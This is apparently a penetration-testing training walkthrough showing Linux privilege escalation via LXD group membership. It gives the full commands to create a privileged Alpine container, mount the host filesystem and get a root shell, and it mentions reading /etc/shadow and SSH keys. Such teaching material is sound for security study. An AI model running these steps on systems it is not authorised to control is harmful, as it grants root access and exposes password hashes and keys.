 LXD is similar to Docker and is Ubuntu's container manager. Upon installation, all users are added to the LXD group. Membership of this group can be used to escalate privileges by creating an LXD container, making it privileged, and then accessing the host file system at `/mnt/root`

Unzip the Alpine image.

```shell-session
devops@NIX02:~$ unzip alpine.zip 
```

Start the LXD initialization process. Choose the defaults for each prompt. Consult this [post](https://www.digitalocean.com/community/tutorials/how-to-set-up-and-use-lxd-on-ubuntu-16-04) for more information on each step.

```shell-session
devops@NIX02:~$ lxd init

Do you want to configure a new storage pool (yes/no) [default=yes]? yes
Name of the storage backend to use (dir or zfs) [default=dir]: dir
Would you like LXD to be available over the network (yes/no) [default=no]? no
Do you want to configure the LXD bridge (yes/no) [default=yes]? yes
```

Import the local image.

```shell-session
devops@NIX02:~$ lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine

Generating a client certificate. This may take a minute...
If this is your first time using LXD, you should also run: sudo lxd init
To start your first container, try: lxc launch ubuntu:16.04
```

Start a privileged container with the `security.privileged` set to `true` to run the container without a UID mapping, making the root user in the container the same as the root user on the host.

```shell-session
devops@NIX02:~$ lxc init alpine r00t -c security.privileged=true

Creating r00t
```

Mount the host file system.

```shell-session
devops@NIX02:~$ lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true

Device mydev added to r00t
```

Finally, spawn a shell inside the container instance. We can now browse the mounted host file system as root. For example, to access the contents of the root directory on the host type `cd /mnt/root/root`. From here we can read sensitive files such as `/etc/shadow` and obtain password hashes or gain access to SSH keys in order to connect to the host system as root, and more.

```shell-session
devops@NIX02:~$ lxc start r00t
devops@NIX02:~/64-bit Alpine$ lxc exec r00t /bin/sh

~ # id
uid=0(root) gid=0(root)
~ #
```
